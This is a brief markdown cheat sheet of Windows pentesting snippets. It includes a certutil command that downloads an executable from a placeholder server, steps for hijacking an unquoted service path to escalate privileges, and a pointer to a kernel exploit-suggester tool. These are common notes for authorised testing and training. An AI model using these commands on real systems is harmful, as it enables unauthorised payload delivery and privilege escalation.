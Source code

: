 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

Run `dir` recursively:
```
gci -recurse .
```

Unquoted Service Paths:
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)

